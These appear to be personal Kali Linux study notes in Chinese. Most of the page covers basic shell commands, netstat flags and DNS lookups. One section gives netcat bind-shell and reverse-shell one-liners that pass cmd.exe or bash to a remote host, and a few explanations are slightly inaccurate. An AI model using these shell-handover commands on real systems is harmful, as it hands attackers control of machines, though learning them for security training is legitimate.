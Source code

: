 # kali-linux system learnning

echo $USER 输出当前用户名

echo $PWD 输出当前路径

echo $HOME 家目录

export b=127.0.0.1  设置一个变量，并赋值

ping -c 2 $b 使用ping命令发送2次数据包到该变量值

echo "$$" 使用两个符号来查看当前shell实例进程的id

var="zhangsan" 使用var命令创建一个对象

echo $var 输出当前变量

history 查看当前命令历史 

!1	命令历史当中的第一条命令会被执行

!! 执行上一条命令

ls 列出当前目录下文件

echo "abc" > redirection_test.txt 将abc内容输出到一个文件中,注意，使用>会进行覆盖写入，追加写入可以使用>>

wc -m < redirection_text.txt 记录当前文本中的字符数

echo "lalala a b c d header" | sed 's/header/head/' 使用sed替换文本内的某一段内容

cut -d ":"  -f 1 /etc/passwd 取出当前文本内以冒号分隔的第一串字符

echo "hello::there::friend" | awk -F "::" '{print $1,$3}' 以冒号分隔并取出第一个字符串以及第三个字符串

netstat用来查看系统当前系统网络状态信息，包括端口，连接情况等，常用方式如下：

```
netstat -atunlp,各参数含义如下:

-t : 指明显示TCP端口

-u : 指明显示UDP端口

-l : 仅显示监听套接字(LISTEN状态的套接字)

-p : 显示进程标识符和程序名称，每一个套接字/端口都属于一个程序

-n : 不进行DNS解析

-a 显示所有连接的端口
```

正向连接与反向连接
a主机为windows
b主机为linux
正向连接a：nc -nv 192.1.1.2 8888 -e cmd.exe 主机为windows则需要使用-e参数来进行程序重定向
b:nc -lp 8888 在b主机上发起一个监听端口等待a主机的连接  ----监听机获得连接机的cmd执行权限
反向连接a:nc -nv 192.168.1.2 8888 
b:nc -lp 8888 -c bash 使用-c参数将bash丢给连接方  -----a主机获得b主机的shell执行
```

host -t ns megacorpoe.com 其中-t后面的参数可以修改为任意类型参数，比如mx，
